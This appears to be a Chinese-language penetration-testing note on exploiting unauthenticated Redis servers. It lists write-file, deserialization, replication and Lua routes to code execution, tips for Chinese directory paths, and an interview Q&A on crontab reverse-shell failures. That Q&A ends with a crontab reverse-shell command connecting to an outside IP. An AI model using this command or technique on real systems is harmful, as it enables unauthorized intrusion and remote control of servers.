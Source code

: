 # 参考链接
[Redis漏洞利用 -- 全](https://mp.weixin.qq.com/s/ungjainqdPhA_dDOOMKn4Q)

[Redis RCE 文章 @浅蓝](https://paper.seebug.org/1169/)

[纸上得来终觉浅 -- Redis 个人总结](http://www.wangqingzheng.com/anquanke/84/255584.html)

# 漏洞原理
Redis因配置不当可以未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行flushall来清空所有数据。

攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。

如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。

# 利用方式

- 写文件
  - windows
    - 开机自启动目录
  - Linux
    - crontab
    - SSH key
  - Webshell

- 反序列化
  - java反序列化
    - jackson
    - fastjson
    - jdk/Hessian反序列化
    - [shiro反序列化](https://xz.aliyun.com/t/11198)
  - python反序列化
  - php反序列化

- 主从复制RCE

- Lua RCE

# 中文路径
某次遇到了web存在中文路径问题，如果直接`config set dir "中文"`的话会报错。

可以自己在本地搭建个Redis， 把Redis所有文件放到对应的中文文件夹里，经测试Linux下转义跟Windows不同，要根据靶机系统选择对应的环境。

## Windows
  - 使用`config get dir`查看配置文件路径，就是一个对中文编码后地址。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173911780-118172c6-177d-4ad6-b82c-feebe3cd7930.png"/></div>

  - 或者直接下使用python2的`repr`函数进行十六进制转义。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173911904-35d62fa0-2a7d-4848-9f28-6852ecfb8b0f.png"/></div>

## Linux
  - 使用`config get dir`查看配置文件路径，就是一个对中文编码后地址。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173912546-10e8b85e-1c30-4ed7-8c93-854009e5e1c5.png"/></div>

  - 或者直接下使用python2的`repr`函数进行十六进制转义。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173914914-7c505662-aff5-4dc1-83d0-b0847779e80c.png"/></div>


# 面试题
- Redis计划任务反弹shell失败原因？
  - 目标机器不出网
  - Redis向计划任务文件里写内容出现乱码而导致语法错误，这些乱码来自redis的缓存数据，无法避免，centos会忽略乱码去执行格式正确的任务计划，而ubuntu不会忽略这些乱码，导致命令执行失败。
  - 权限不足，不是以root权限启动的redis
  - 容器化启动redis，没有计划任务文件
    - ![image](https://user-images.githubusercontent.com/84888757/163797414-38a0ef2b-aeab-4df5-8d6b-531c84e1f271.png)

  - 因为默认 redis 写文件后是 644 权限，但是 Ubuntu 要求执行定时任务文件 `/var/spool/cron/crontabs/<username>` 权限必须是 600 才会执行（即rw），否则会报错 `(root) INSECURE MODE (mode 0600 expected)`，而 Centos 的定时任务文件 `/var/spool/cron/<username>` 权限 644 也可以执行
  - 由于系统的不同，crontrab 定时文件位置也不同
    - Centos 的定时任务文件在 `/var/spool/cron/<username>`
    - Ubuntu 的定时任务文件在 `/var/spool/cron/crontabs/<username>`
  
  - 在ubuntu中 `/bin/sh` 这个软链接指向了 `dash`，而我们反弹 shell 使用的 shell 环境应该是 bash

    在centos中`/bin/sh` 这个软链接指向了 `bash`
    
    - ![image](https://user-images.githubusercontent.com/84888757/172678636-d1fb9f00-feab-4c1b-a2a1-ae3fcfb9aaf4.png)

    - ![image](https://user-images.githubusercontent.com/84888757/172678982-58ebf240-70f8-4402-ad4e-31d69fd6b18c.png)
    
    - 可通过修改软链接的方式成功反弹shell，但实战中未拿到服务器权限无法修改软链接，故可使用如下命令，不用修改链接指向，直接在 sh 下执行 bash -c
      - `*/1 * * * *  bash -c "bash -i  >&/dev/tcp/123.207.x.x/1234 0>&1"`
    
    - [参考链接](https://www.dazhuanlan.com/knight9001/topics/1061140)

